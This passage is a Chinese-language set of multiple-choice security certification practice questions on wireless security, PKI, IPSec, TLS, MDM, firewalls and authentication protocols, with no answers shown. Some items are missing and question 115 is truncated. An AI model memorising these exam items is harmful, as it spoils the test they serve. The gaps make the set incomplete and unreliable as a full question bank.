- **C.** 要求双重控制。
- **D.** 实施职责分离。

**2.** Naomi 正在设计她所在组织的无线网络，希望确保设计能让接入点部署在能够提供最佳覆盖的区域。她还希望在设计中规划可能的射频干扰源。Naomi 首先应该做什么？

- **A.** 联系 FCC 获取无线地图。
- **B.** 进行现场勘察。
- **C.** 禁用所有现有接入点。
- **D.** 执行端口扫描以查找所有现有接入点。

**3.** Chris 正准备实施支持 802.1X 的无线基础设施。他知道自己想使用一种基于可扩展认证协议（EAP）且不需要客户端证书的协议。他应该选择以下哪个选项？

- **A.** EAP-MD5
- **B.** PEAP
- **C.** LEAP
- **D.** EAP-TLS

**4.** 通常用什么术语来描述网络内部的横向流量移动？

- **A.** 侧移（Side-stepping）
- **B.** 滑块流量（Slider traffic）
- **C.** 东西向流量（East-west traffic）
- **D.** 对等互连（Peer interconnect）

**5.** Charlene 想使用 HTTP 标头内置的安全功能。以下哪项不是 HTTP 标头安全选项？

- **A.** 要求传输安全
- **B.** 防止跨站脚本
- **C.** 禁用 SQL 注入
- **D.** 帮助防止 MIME 嗅探

**6.** Charlene 希望将组织标准营销信息集配置到整个组织范围内的移动设备上。哪种 MDM 功能最适合这项任务？

- **A.** 应用程序管理
- **B.** 远程擦除
- **C.** 内容管理
- **D.** 推送通知

**7.** Denny 想为他的组织部署防病毒软件，并希望确保它能阻止最多数量的恶意软件。Denny 应该选择哪种部署模式？

- **A.** 在个人 PC 和服务器上安装来自同一厂商的防病毒软件，以最好地平衡可见性、支持性和安全性。
- **B.** 在所有 PC 和服务器上安装来自多个厂商的防病毒软件，以最大化覆盖范围。
- **C.** 在 PC 上安装一家厂商的防病毒软件，在服务器上安装另一家厂商的防病毒软件，以提供更大的机会捕获恶意软件。
- **D.** 仅在工作站上安装防病毒软件，以避免对服务器性能造成潜在影响。

**8.** 当 Amanda 去她常去的咖啡店时，她无需提供密码或登录即可连接到开放的无线网络，但会立即被重定向到一个要求填写电子邮件地址的网站。一旦她提供邮箱地址，就能正常浏览互联网。Amanda 遇到的是什么类型的技术？

- **A.** 预共享密钥
- **B.** 强制门户（captive portal）
- **C.** 端口安全
- **D.** Wi-Fi 保护访问

**9.** Charles 被要求为他的组织实施 DNSSEC。以下哪项是它提供的功能？

- **A.** 机密性
- **B.** 完整性
- **C.** 可用性
- **D.** 以上所有

**10.** Sarah 实施了一个基于 OpenID 的身份验证系统，该系统依赖现有的 Google 账户。在这种联合环境中，Google 扮演什么角色？

- **A.** 依赖方（RP）
- **B.** 身份提供方（IdP）
- **C.** 服务提供方（SP）
- **D.** 注册机构（RA）

**11.** Ian 需要通过加密通道连接到系统，以便使用命令行 Shell。他应该使用什么协议？

- **A.** Telnet
- **B.** HTTPS
- **C.** SSH
- **D.** TLS

**12.** Casey 正在考虑为她的组织部署密码钥匙设备。她想使用一种被广泛采用的开放身份验证标准，并需要她的钥匙支持该标准。除了能够通过 USB、蓝牙和 NFC 连接之外，她还应该寻找她的钥匙支持以下哪项标准？

- **A.** SAML
- **B.** FIDO
- **C.** ARF
- **D.** OpenID

**13.** Nadia 担心她发给朋友 Danielle 的邮件内容在服务器之间传输时被读取。她可以使用什么技术来加密邮件，并且应该使用谁的密钥来加密消息？

- **A.** S/MIME，使用她的私钥
- **B.** 安全 POP3，使用她的公钥
- **C.** S/MIME，使用 Danielle 的公钥
- **D.** 安全 POP3，使用 Danielle 的私钥

**14.** SRTP 最有可能用于哪种类型的通信？

- **A.** 电子邮件
- **B.** 网络电话（VoIP）
- **C.** 网页
- **D.** 文件传输


**15.** Olivia 正在实施一个负载均衡的 Web 应用集群。她的组织已经有一对冗余负载均衡器，但每台设备自身都无法承受集群设计最大吞吐量。Olivia 建议以 active/active（双活）设计部署负载均衡器。在这个建议中，她应该提出什么顾虑？

- **A.** 负载均衡器集群无法在不中断服务的情况下进行修补。
- **B.** 负载均衡器集群容易受到拒绝服务攻击。
- **C.** 如果其中一台负载均衡器发生故障，可能导致服务降级。
- **D.** 以上都不是

**16.** FTPS 流量最常使用哪两个端口？

- **A.** 21、990
- **B.** 21、22
- **C.** 433、1433
- **D.** 20、21

**17.** 证书被装订（stapled）时会发生什么？

- **A.** 证书和 OCSP 响应一起发送，以避免在证书路径验证期间再次检索。
- **B.** 证书被存储在安全的位置，防止证书被轻易移除或修改。
- **C.** 主机证书和根证书颁发机构的私钥都被附加以验证证书链的真实性。
- **D.** 证书被附加到其他证书上以显示整个证书链。

**18.** Greg 正在搭建公钥基础设施（PKI）。他创建了一个离线的根证书颁发机构（CA），然后需要向用户和设备颁发证书。PKI 中的哪个系统或设备接收来自应用程序、系统和用户的证书签名请求（CSR）？

- **A.** 中间 CA
- **B.** 注册机构（RA）
- **C.** 证书吊销列表（CRL）
- **D.** 以上都不是

**19.** Mark 负责管理公司的负载均衡器，他想使用一种能够考虑当前服务器负载和活动会话的负载均衡调度技术。他应该选择以下哪种技术？

- **A.** 源 IP 哈希
- **B.** 加权响应时间
- **C.** 最少连接
- **D.** 轮询

**20.** 在一次安全审查中，Matt 注意到他合作的厂商将其 IPSec 虚拟专用网络（VPN）列为使用 AH 协议来保护发送的数据包。Matt 应该向他的团队指出对此的什么顾虑？

- **A.** AH 不提供机密性。
- **B.** AH 不提供数据完整性。
- **C.** AH 不提供重放保护。
- **D.** 以上都不是；AH 提供机密性、身份验证和重放保护。

**21.** Michelle 想保护通过邮局协议版本 3（POP3）取回的邮件，因为她知道 POP3 默认是不加密的。在保持 POP3 使用默认端口运行的情况下，她最好的选择是什么？

- **A.** 通过 25 端口使用 TLS。
- **B.** 通过 25 端口使用 IKE。
- **C.** 通过 110 端口使用 TLS。
- **D.** 通过 110 端口使用 IKE。

**22.** Daniel 在一家中型金融机构工作。公司最近将部分数据迁移到了云解决方案。Daniel 担心云提供商可能不支持与公司内部网络相同的安全策略。缓解这一担忧的最佳方法是什么？

- **A.** 部署云访问安全代理（CASB）。
- **B.** 进行集成测试。
- **C.** 制定云安全策略。
- **D.** 实施安全即服务。

**23.** Angela 所在的公司部署了使用 SIP 的 IP 语音（VoIP）环境。他们的电话通话最可能面临哪种威胁？

- **A.** 呼叫拦截
- **B.** 语音钓鱼（Vishing）
- **C.** 战争拨号
- **D.** 拒绝服务攻击

**24.** Alaina 担心她的 NTP 时间同步服务的安全性，因为她知道 TLS 和 BGP 等协议容易受到伪造 NTP 消息导致系统间时间错配问题的影响。她可以使用什么工具来快速保护 Linux 系统之间的 NTP 流量？

- **A.** IPSec VPN
- **B.** SSH 隧道
- **C.** RDP
- **D.** TLS VPN

**25.** Ramon 正在构建一个新的 Web 服务，并正在考虑该服务的哪些部分应使用传输层安全性（TLS）。应用程序的组件包括：

1. 身份验证
2. 支付表单
3. 用户数据，包括地址和购物车
4. 用户评论和评价部分

他应该在哪些位置实施 TLS？

- **A.** 在 1、2 和 4 处
- **B.** 在 2、3 和 4 处
- **C.** 在 1、2 和 3 处
- **D.** 在基础设施的所有位置

**26.** Katie 所在的组织使用文件传输协议（FTP）让承包商提交工作成果。承包商处理敏感客户信息，然后使用 Katie 公司提供的组织凭据登录并传输信息。如果攻击者能够捕获此传输过程中涉及的网络流量，他们可能收集到哪些敏感信息？

- **A.** 没有，因为 FTP 是一种安全协议
- **B.** 客户端和服务器双方的 IP 地址
- **C.** 上传的文件内容
- **D.** 用户名、密码和文件内容

**27.** 在网络中的交换机上启用 DHCP 侦听或 DHCP 嗅探提供了哪些安全好处？

- **A.** 防止恶意或畸形 DHCP 流量
- **B.** 防止非法 DHCP 服务器
- **C.** 收集有关 DHCP 绑定的信息
- **D.** 以上全部

**28.** Aaron 想要为以下生产主机使用证书：

```
www.example.com
blog.example.com
news.example.com
```

为所有这些系统提供传输层安全性（TLS）的最有效方法是什么？

- **A.** 使用自签名证书。
- **B.** 使用通配符证书。
- **C.** 使用 EV 证书。
- **D.** 使用 SSL 证书。

**29.** Cassandra 担心针对网络生成树协议（STP）的攻击。她希望确保攻击者引入的新交换机不能通过声称比当前配置更低的桥 ID 来改变拓扑结构。她应该实施什么来防止这种情况？

- **A.** 启用 `BridgeProtect`。
- **B.** 将桥 ID 设置为负数。
- **C.** 禁用生成树协议。
- **D.** 启用根保护（`Root Guard`）。

**30.** Charles 在他正在审查的系统上发现了一个 PFX 格式的文件。PFX 文件能够包含什么？

- **A.** 仅证书和证书链，不包含私钥
- **B.** 仅私钥
- **C.** 服务器证书、中间证书和私钥
- **D.** 以上都不是，因为 PFX 文件仅用于证书请求

**31.** 以下规则最可能由哪种设备处理？

```
PERMIT IP ANY EQ 443
DENY IP ANY ANY
```

- **A.** NIPS
- **B.** HIPS
- **C.** 内容过滤器
- **D.** 防火墙

**32.** Ted 想要使用 IP 信誉信息来保护他的网络，并且知道第三方会提供这些信息。他如何获取这些数据，他最可能使用什么安全协议来检索它？

- **A.** 订阅服务，SAML
- **B.** VDI，XML
- **C.** 订阅服务，HTTPS
- **D.** FDE，XML

**33.** 为 HTTP cookie 设置 `secure` 属性会导致什么结果？

- **A.** Cookie 将以加密形式存储。
- **B.** Cookie 将仅通过 HTTPS 发送。
- **C.** Cookie 将以哈希形式存储。
- **D.** 必须使用 cookie 密钥访问 Cookie。

**34.** Charles 想要使用 IPSec，并且需要能够根据流量发送到远程系统的端口来确定流量的 IPSec 策略。他应该使用哪种 IPSec 模式？

- **A.** IPSec 隧道模式
- **B.** IPSec IKE 模式
- **C.** IPSec PSK 模式
- **D.** IPSec 传输模式

**35.** Wi-Fi 保护设置（WPS）包括四种将设备添加到网络的方式。哪种方式因暴力破解漏洞而存在严重的安全问题？

- **A.** PIN
- **B.** USB
- **C.** 按钮
- **D.** 近场通信

**36.** Claire 想检查证书是否已被吊销。用于验证证书的协议是什么？

- **A.** RTCP
- **B.** CRBL
- **C.** OCSP
- **D.** PKCRL

**37.** Nick 负责公司的加密密钥。使公钥失效的最佳方法是什么？

- **A.** 发出网络警报。
- **B.** 删除数字证书。
- **C.** 将该证书发布到 CRL 中。
- **D.** 通知 RA。

**38.** 大多数地理围栏应用使用哪两种连接方式？

- **A.** 蜂窝网络和 GPS
- **B.** USB 和蓝牙
- **C.** GPS 和 Wi-Fi
- **D.** 蜂窝网络和蓝牙

**39.** Gabriel 正在搭建一个新的电子商务服务器。他担心安全问题。以下哪个位置是放置电子商务服务器的最佳位置？

- **A.** DMZ
- **B.** 内网
- **C.** 访客网络
- **D.** 外联网

**40.** Janelle 是一家小公司的安全管理员。她正试图改善整个网络的安全性。她应该首先采取以下哪项措施？

- **A.** 在所有计算机上实施反恶意软件。
- **B.** 实施可接受使用策略。
- **C.** 关闭所有计算机上不需要的服务。
- **D.** 设置密码重用策略。

**41.** Ben 负责一个面向全球用户的新应用程序，该应用程序允许用户注册以访问有关他们的现有数据。他想使用一种身份验证方法，使他能够验证用户是否是与他们账户匹配的正确人员。他如何验证这些用户？

- **A.** 要求他们提供社会安全号码。
- **B.** 要求他们使用通过 Google 的联合身份。
- **C.** 要求他们使用基于知识的身份验证。
- **D.** 要求他们验证发送到其注册账户的电子邮件。

**48.** Nelson 使用一种工具，该工具列出可以在系统上安装和运行的特定应用程序。该工具使用应用程序二进制的哈希来识别每个应用程序，以确保应用程序与为其提供的文件名匹配。Nelson 使用的是哪种类型的工具？

- **A.** 防病毒软件
- **B.** 黑名单
- **C.** 反恶意软件
- **D.** 白名单

**49.** 哪种类型的防火墙会检查它遇到的每个数据包的内容和上下文？

- **A.** 包过滤防火墙
- **B.** 状态包过滤防火墙
- **C.** 应用层防火墙
- **D.** 网关防火墙

**50.** 作为无线网络部署工作的一部分，Scott 生成了此处显示的图像。用于描述这种无线网络可视化的术语是什么？



- **A.** 热图
- **B.** 网络图
- **C.** 区域图
- **D.** DMZ

**51.** 你正在设计一个新的网络基础设施，以便公司允许从 Internet 连接的未经认证的用户访问某些区域。你的目标是保护内部网络，同时提供对这些区域的访问。你决定将 Web 服务器放在一个单独的子网上，向公众开放。这个子网叫什么？

- **A.** 访客网络
- **B.** DMZ
- **C.** 内网
- **D.** VLAN

**52.** Madhuri 的 Web 应用通过专门键入的方式转换输入到字段中的数字，并应用严格的异常处理。它还为其允许的输入设置最小和最大长度，并使用预定义的允许值数组来处理月份或日期等输入。什么术语描述了 Madhuri 的应用正在执行的操作？

- **A.** 缓冲区溢出防护
- **B.** 字符串注入
- **C.** 输入验证
- **D.** 模式验证

**53.** 你正在向高层管理人员概述实施无线网络的计划。如果你不想使用企业身份验证，但想为用户提供不需要共享密码或口令的安全身份验证，你应该采用哪种无线安全标准？

- **A.** WPA3
- **B.** WPA
- **C.** WPA2
- **D.** WEP

**54.** Brandon 希望确保他的入侵防御系统（IPS）能够阻止攻击流量。哪种部署方法最适合此要求？

- **A.** 内联，部署为 IPS
- **B.** 通过分路器（tap）被动部署，部署为 IDS
- **C.** 内联，部署为 IDS
- **D.** 通过分路器（tap）被动部署，部署为 IPS

**55.** 你是一家大型公司的首席安全官（CSO）。你在其中一台工作站上发现了恶意软件。你担心该恶意软件可能具有多种功能，并且可能已经对计算机造成了比当前所能检测到的更多的安全问题。测试该恶意软件的最佳方法是什么？

- **A.** 在对其进行测试之前，将恶意软件保留在该工作站上。
- **B.** 将恶意软件放入沙箱环境中进行测试。
- **C.** 对其进行分析或测试并不重要；直接从机器上移除即可。
- **D.** 将恶意软件放置在蜜罐上进行测试。

**56.** 你正试图提高公司的安全性。你目前正在制定一份大纲，列出所有需要检查和采取行动的安全方面。以下哪个术语描述了在可信操作系统中改进安全性的过程？

- **A.** FDE
- **B.** 加固
- **C.** SED
- **D.** 基线化

**57.** Melissa的网站通过HTTPS为访问用户提供传输层安全（TLS）连接。不幸的是，Melissa忘记续期她的证书，导致网站向用户显示错误。当证书过期时，HTTPS连接会发生什么？

- **A.** 所有流量都不会加密。
- **B.** 对于在证书错误提示时不点击“确定”的用户，其流量将不会加密。
- **C.** 信任度会降低，但流量仍然会被加密。
- **D.** 在证书续期之前，用户将被重定向到证书颁发机构的网站以查看警告。

**58.** Isaac正在审查其组织中面向客户的 Web 应用程序的安全编码实践文档，并希望确保他们的输入验证建议是合适的。以下哪项不是输入验证的常见最佳实践？

- **A.** 确保验证在受信任的服务器上进行。
- **B.** 在处理所有客户端提供的数据之前，先对其进行验证。
- **C.** 验证预期的数据类型和范围。
- **D.** 确保验证在受信任的客户端上进行。

**59.** Frank知道他正在部署的系统内置了TPM模块。以下哪项能力不是TPM提供的功能？

- **A.** 随机数生成器
- **B.** 远程证明能力
- **C.** 用于加速SSL/TLS的加密处理器
- **D.** 绑定和密封数据的能力

**60.** 在数据库中，哈希的主要用途是什么？

- **A.** 加密存储的数据，从而防止泄露
- **B.** 用于索引和检索
- **C.** 混淆数据
- **D.** 替代敏感数据，使其可以在不暴露的情况下使用

**61.** Hans是一家大型公司的安全管理员。他网络上的用户访问各种各样的网站。他担心他们可能会从这些众多网站中的某一个感染恶意软件。以下哪项是他缓解这一威胁的最佳方法？

- **A.** 实施基于主机的防病毒软件。
- **B.** 将已知受感染的网站列入黑名单。
- **C.** 设置浏览器仅允许已签名的组件。
- **D.** 设置浏览器阻止所有活动内容（ActiveX、JavaScript等）。

**62.** Zarmeena使用她分发给组织中每位成员的密码短语为她的网络实施了无线身份验证。她实施的是哪种身份验证方法？

- **A.** Enterprise（企业）
- **B.** PSK（预共享密钥）
- **C.** Open（开放）
- **D.** Captive portal（强制门户）

**63.** Olivia正在构建一个无线网络，并希望实施基于可扩展身份验证协议（EAP）的协议进行身份验证。如果她想优先考虑重连速度，并且不想为身份验证部署客户端证书，她应该使用哪种EAP版本？

- **A.** EAP-FAST
- **B.** EAP-TLS
- **C.** PEAP
- **D.** EAP-TTLS

**64.** 你在一家大型公司工作。你关心确保所有工作站都具有统一的配置、没有安装未经授权的软件，并且所有补丁都保持最新。以下哪项对于实现这一目标最有效？

- **A.** 使用VDI。
- **B.** 实施限制性策略。
- **C.** 为所有工作站使用镜像。
- **D.** 实施强有力的补丁管理。

**65.** Naomi已将她的组织基于云的虚拟数据中心部署到全球多个Google数据中心位置。这种设计为她的系统提供了什么？

- **A.** 抵御内部攻击
- **B.** 跨多个区域的高可用性
- **C.** 降低成本
- **D.** 供应商多样性

**66.** Patrick希望部署一种对最终用户尽可能易于使用的虚拟专用网络（VPN）技术。他应该部署哪种类型的VPN？

- **A.** IPSec VPN
- **B.** SSL/TLS VPN
- **C.** HTML5 L2TP VPN
- **D.** SAML VPN

**67.** Olivia负责公司电子商务服务器的Web应用程序安全。她尤其担心XSS和SQL注入。以下哪种技术在缓解这些攻击方面最有效？

- **A.** 适当的错误处理
- **B.** 使用存储过程
- **C.** 适当的输入验证
- **D.** 代码签名

**68.** Isaac想要防止公司移动设备在公司大楼和企业园区之外被使用。他应该使用哪种移动设备管理（MDM）功能来实现这一点？

- **A.** 补丁管理
- **B.** IP过滤
- **C.** 地理围栏
- **D.** 网络限制

**69.** Sophia想要测试她公司的Web应用程序，以检查其是否正确处理输入验证和数据验证。哪种测试方法对此最有效？

- **A.** 静态代码分析
- **B.** 模糊测试
- **C.** 基线化
- **D.** 版本控制

**70.** Alaina已实施了一个HSM。以下哪项能力不是HSM的典型功能？

- **A.** 用于数字签名的加密和解密
- **B.** 启动证明
- **C.** 数字密钥的安全管理
- **D.** 强身份验证支持

**71.** Cynthia想要发放非接触式卡，以便进入她负责保护的大楼。她应该部署以下哪种技术？

- **A.** RFID
- **B.** Wi-Fi
- **C.** 磁条
- **D.** HOTP

**72.** Alaina希望防止从暴露在Web上的LDAP目录中批量收集电子邮件地址和其他目录信息。以下哪项解决方案对此没有帮助？

- **A.** 使用退避算法
- **B.** 实施LDAPS
- **C.** 要求进行身份验证
- **D.** 限制查询速率

**73.** Alaina得知她的组织在其环境中使用SAN证书。关于她的组织中使用的证书，这告诉Alaina什么？

- **A.** 它用于存储区域网络。
- **B.** 它由SANS（一家网络安全组织）提供。
- **C.** 该证书是自签名、自分配命名空间的一部分。
- **D.** 该证书允许多个主机名由同一证书保护。

**74.** Edward在一家大型保险公司负责Web应用程序安全。他特别担心的一个应用程序供现场保险理赔员使用。他希望采用强身份验证方法来减少应用程序被滥用的风险。他的最佳选择是什么？

- **A.** 使用数字证书对客户端进行身份验证。
- **B.** 实施非常强的密码策略。
- **C.** 使用传输层安全（TLS）保护应用程序通信。
- **D.** 实施Web应用防火墙（WAF）。

**75.** Sarah是一家小公司的首席信息官（CIO）。公司使用多个与宿主操作系统存在复杂交互的自定义应用程序。她担心如何确保网络上的所有系统都得到适当修补。在她的环境中，最佳方法是什么？

- **A.** 实施自动修补。
- **B.** 实施一项让各个用户自行修补其系统的策略。
- **C.** 将补丁管理委托给部门经理，以便他们为自己的部门找到最佳的补丁管理方法。
- **D.** 立即将补丁部署到测试环境；测试一完成，就分阶段推广到生产网络。


76. Gary使用无线分析仪对他的组织进行现场勘测。以下哪项不是无线分析仪提供周围无线网络信息的常见功能？

- A. 在设施地图上显示接入点信号强度的能力
- B. 显示用于身份验证的RADIUS服务器版本的能力
- C. 显示给定位置可用SSID列表的能力
- D. 显示802.11协议版本（n、ac、ax）的能力

77. Emiliano是一名网络管理员，他担心外围设备的安全性。以下哪项是他可以采取的提高这些设备安全性的基本步骤？

- A. 实施FDE。
- B. 如果不需要，关闭远程访问（SSH、Telnet等）。
- C. 对所有外围设备进行模糊测试。
- D. 为所有外围设备实施数字证书。

78. 手动代码审查属于哪种类型的代码分析？

- A. 动态代码审查
- B. Fagan代码审查
- C. 静态代码审查
- D. 模糊测试

79. Samantha使用`ssh-keygen`生成了新的SSH密钥。她应该将哪个SSH密钥放置在她想要访问的服务器上，在Linux系统上它通常存储在哪里？

- A. 她的SSH公钥，`/etc/`
- B. 她的SSH私钥，`/etc/`
- C. 她的SSH公钥，`~/.ssh`
- D. 她的SSH私钥，`~/.ssh`

80. Ixxia是一名软件开发团队经理。她担心代码中的内存泄漏。哪种类型的测试最有可能发现内存泄漏？

- A. 模糊测试
- B. 压力测试
- C. 静态代码分析
- D. 规范化

81. 负载均衡器为外部连接提供什么IP地址，以连接到负载均衡组中的Web服务器？

- A. 每个服务器的IP地址，按优先级顺序
- B. 负载均衡器的IP地址
- C. 每个服务器的IP地址，按轮询顺序
- D. 虚拟IP地址

82. 什么术语描述了在密码被哈希并存储到数据库之前添加到密码中的随机位？

- A. 调味
- B. 彩虹护甲
- C. 位衰减
- D. Salt

83. 维克多是中型公司的网络管理员。他希望能够远程访问服务器，以便从远程位置执行小型管理任务。以下哪种协议最适合他使用？

- A. SSH
- B. Telnet
- C. RSH
- D. SNMP

84. 丹在他的 Amazon 账户中配置了基于资源的策略。他部署了什么控制？

- A. 确定谁有权访问资源以及他们可以对其采取的操作的控制
- B. 确定服务费用达到多少时会发送警报的控制
- C. 确定在设置警报之前可以消耗的有限资源量的控制
- D. 确定身份可以做什么的控制

85. 夏洛特的公司在数据中心使用机架式传感器设备。这些传感器通常监测什么？

- A. 温度和湿度
- B. 烟雾和火灾
- C. 电力质量和可靠性
- D. 以上都不是

86. 劳雷尔正在审查她所在组织中电子邮件服务器的配置，发现有一个服务运行在 TCP 端口 993 上。她最有可能发现了什么安全电子邮件服务？

- A. 安全 POP3
- B. 安全 SMTP
- C. 安全 IMAP（IMAPS）
- D. 安全 MIME（SMIME）

87. 临时无线网络使用什么类型的拓扑？

- A. 点到多点
- B. 星型
- C. 点到点
- D. 总线

88. 仅允许安装签名代码的主要优势是什么？

- A. 它保证不会安装恶意软件。
- B. 它改进了补丁管理。
- C. 它验证了软件的创建者。
- D. 在具有可信平台模块（TPM）的计算机上执行速度更快。

89. 萨曼莎被要求为她的组织提供关于密码安全实践的建议。用户抱怨说他们在工作中必须记住太多密码，并且需要一种跟踪密码的方法。萨曼莎应该推荐什么？

- A. 建议用户在工作站附近写下密码。
- B. 建议用户对具有相似数据或风险特征的站点使用相同的密码。
- C. 建议用户根据使用的站点稍微更改标准密码。
- D. 推荐密码保险库或管理器应用程序。

90. 马特已在他的大楼的网络交换机上启用了端口安全。端口安全做什么？

- A. 按 MAC 地址过滤
- B. 防止路由协议更新从受保护端口发送
- C. 建立私有 VLAN
- D. 防止重复的 MAC 地址连接到网络

91. 汤姆负责他公司的 VPN 连接。他公司使用 IPSec 进行 VPN。AH 在 IPSec 中的主要目的是什么？

- A. 加密整个数据包。
- B. 仅加密头部。
- C. 验证整个数据包。
- D. 仅验证头部。

92. 迈尔斯希望确保他的内部 DNS 不能被外部用户查询。哪种 DNS 设计模式使用不同的内部和外部 DNS 服务器，为这些网络的用户提供可能不同的 DNS 响应？

- A. DNSSEC
- B. 分裂视界 DNS
- C. DMZ DNS
- D. DNS 代理

93. 阿比盖尔负责在她的网络上设置基于网络的入侵防御系统（NIPS）。NIPS 位于一个特定的网络段。她正在寻找一种被动方法来获取发送到 NIPS 网络段的所有流量的副本，以便其可以分析流量。以下哪项是她最好的选择？

- A. 使用网络分路器
- B. 使用端口镜像
- C. 将 NIPS 设置在连接到所有其他段的 VLAN 上
- D. 在每个段上设置 NIPS

94. 阿曼达希望允许其他组织的用户使用她自己的无线网络。什么技术可以让她使用他们自己的主组织凭据来实现这一点？

- A. 预共享密钥
- B. 802.11q
- C. RADIUS 联合
- D. OpenID Connect

95. 尼森希望确保他组织部署的移动设备只能在公司设施中使用。他应该部署什么类型的身份验证以确保这一点？

- A. PIN 码
- B. 生物识别
- C. 上下文感知身份验证
- D. 内容感知身份验证

96. 以下哪项最能描述 TPM？

- A. 传输保护模式
- B. 一个安全加密处理器
- C. DNSSEC 扩展
- D. 整体补丁管理

97. 珍妮丝正在向新网络管理员解释 IPsec 的工作原理。她正试图解释 IKE 的作用。以下哪项最接近 IPsec 中 IKE 的作用？

- A. 它加密数据包。
- B. 它建立 SA。
- C. 它验证数据包。
- D. 它建立隧道。

98. 离线证书颁发机构（CA）最可能使用什么证书？

- A. 根
- B. 机器/计算机
- C. 用户
- D. 电子邮件

99. 艾米丽管理她网络的 IDS/IPS。她安装并正确配置了基于网络的入侵防御系统（NIPS）。它没有检测到某个特定网络段上的明显攻击。她已验证 NIPS 已正确配置并且工作正常。她解决此问题的最有效方法是什么？

- A. 为该段实施端口镜像。
- B. 在该段上安装 NIPS。
- C. 升级到更有效的 NIPS。
- D. 将该段隔离在其自己的 VLAN 上。

100. 达娜希望在不改变数据长度和类型等特征的情况下保护数据库中的数据。她可以使用什么技术最有效地做到这一点？

- A. 哈希
- B. 令牌化
- C. 加密
- D. 轮换

101. 埃莱诺拉负责全国各地公司分支机构的日志收集和分析。她发现远程站点产生大量日志数据，这可能导致这些站点的带宽消耗问题。她可以向每个站点部署什么类型的技术来帮助解决这个问题？

- A. 部署日志聚合器。
- B. 部署蜜罐。
- C. 部署堡垒主机。
- D. 以上都不是

102. 达尼正在执行一种动态代码分析技术，该技术向她正在测试的应用程序发送广泛的数据作为输入。输入包括程序预期范围和类型内的数据，以及不同且因此程序不期望的数据。达尼使用的是什么代码测试技术？

- A. 时间盒
- B. 缓冲区溢出
- C. 输入验证
- D. 模糊测试

103. 蒂娜希望确保她维护的网络上不允许存在 rogue DHCP 服务器。她可以做什么来防止这种情况？

- A. 部署 IDS 以阻止 rogue DHCP 数据包。
- B. 启用 DHCP 嗅探。
- C. 禁用 DHCP 嗅探。
- D. 阻止所有系统上的 DHCP 端口流量。

104. 端点检测和响应有三个主要组件构成其提供端点可见性的能力。以下哪项不是这三个部分之一？

- A. 数据搜索
- B. 恶意软件分析
- C. 数据探索
- D. 可疑活动检测

105. 伊莎贝尔负责中型公司的安全。她希望防止网络上的用户在工作时访问求职网站。以下哪种设备最适合实现这一目标？

- A. 代理服务器
- B. NAT
- C. 数据包过滤防火墙
- D. NIPS

106. 什么术语描述了存储、管理和允许审计 API 密钥、密码和证书的云系统？

- A. 云 PKI
- B. 云 TPM
- C. 密钥管理器
- D. 静默服务

107. 弗雷德正在构建一个将接收服务提供商信息的 Web 应用程序。他应该设计他的应用程序使用什么开放标准，以便与许多现代第三方身份提供商一起工作？

- A. SAML
- B. Kerberos
- C. LDAP
- D. NTLM

108. 你负责一个电子商务网站。该网站托管在集群中。以下哪种技术最适合保证可用性？

- A. VPN 集中器
- B. 聚合交换
- C. SSL 加速器
- D. 负载均衡

109. 在美国 2.4 GHz Wi-Fi 网络安装中，哪些频道不会导致频道重叠或重叠问题？

- A. 1、3、5、7、9 和 11
- B. 2、6 和 10
- C. 1、6 和 11
- D. Wi-Fi 频道不会遭受频道重叠。

110. Ryan 担心公司 Web 应用程序的安全。由于该应用程序处理机密数据，他最担心数据暴露。以下哪项是他最应该实施的？

- A. WAF
- B. TLS
- C. NIPS
- D. NIDS

111. 以下哪种连接方式仅通过视线连接工作？

- A. 蓝牙
- B. 红外
- C. NFC
- D. Wi-Fi

112. Carole 负责公司各种网络协议。网络时间协议（Network Time Protocol）间歇性出现故障。以下哪项受影响最大？

- A. Kerberos
- B. RADIUS
- C. CHAP
- D. LDAP

113. 你正在为公司服务器选择一种认证方法。你需要一种定期重新认证客户端以防止会话劫持的方法。以下哪项是最佳选择？

- A. PAP
- B. SPAP
- C. CHAP
- D. OAuth

114. Naomi 希望部署一个防火墙，以保护她的终端系统免受网络中同一安全区域内其他系统的影响，这是零信任设计的一部分。哪种类型的防火墙最适合这种部署？

- A. 硬件防火墙
- B. 软件防火墙
- C. 虚拟防火墙
- D. 云防火墙

115. Lisa 正在为公司设置账户。她想要为 Oracle 数据库服务器设置账户。以下哪项是分配给数据库服务的最佳账户类型？

- A. 用户
- B. 访客

121. Claire 收到通知，一个 Web 应用程序存在零日漏洞。她拥有漏洞利用代码，包括一个正在被积极利用的 SQL 注入攻击。如果需要该应用程序继续运行，她如何快速做出反应以防止此问题影响她的环境？

- A. 在她的 IDS 上部署检测规则。
- B. 在对其进行逆向工程后手动更新应用程序代码。
- C. 通过她的 WAF 部署修复。
- D. 安装供应商提供的补丁。

122. Eric 想要提供公司购买的设备，但他的组织更倾向于为最终用户提供可选择且能够集中管理和维护的设备。哪种移动设备部署模式最适合这种需求？

- A. BYOD
- B. COPE
- C. CYOD
- D. VDI

123. Derek 负责其组织的证书颁发机构，并想添加一个新的证书颁发机构。他的组织已经以网状结构运行着三个证书颁发机构：A. 南美 CA，B. 美国 CA，C. 欧盟 CA。随着他们扩展到澳大利亚，他想添加 D. 澳大利亚 CA。Derek 需要从 D 向哪些 CA 颁发证书，以确保澳大利亚域中的系统能够访问 A、B 和 C 域中的服务器？

- A. 他需要所有其他系统为 D 颁发证书，以便他的系统在那里受信任。
- B. 他需要从 D 向每个其他 CA 系统颁发证书，然后让其他 CA 为 D 颁发证书。
- C. 他需要将 D 的私钥提供给每个其他 CA。
- D. 他需要从每个其他 CA 接收私钥，并用它来为 D 签署根证书。

124. Claire 担心攻击者获取公司网络设备及其配置的信息。她应该实施哪种协议，既能最有效地缓解此风险，又能提供网络设备的管理和报告？

- A. RADIUS
- B. TLS
- C. SNMPv3
- D. SFTP

125. Ben 正在使用一个专门设计用于向其测试的 Web 应用程序发送意外数据的工具。该应用程序在测试环境中运行，并配置为记录事件和更改。Ben 使用的是哪种类型的工具？

- A. SQL 注入代理
- B. 静态代码审查工具
- C. Web 代理
- D. 模糊测试器

126. Eric 负责其组织的移动设备安全。他们使用现代移动设备管理（MDM）工具来管理 BYOD 移动设备环境。Eric 需要确保其组织向这些移动设备用户提供的应用程序和数据尽可能安全。以下哪项技术将为他提供最佳安全性？

- A. 存储分段
- B. 容器化
- C. 全设备加密
- D. 远程擦除

127. Murali 正在为他的网络寻找一种认证协议。他非常担心技术高超的攻击者。为缓解这种担忧，他需要一种从不以任何形式实际传输用户密码的认证协议。哪种认证协议适合 Murali 的需求？

- A. CHAP
- B. Kerberos
- C. RBAC
- D. Type II

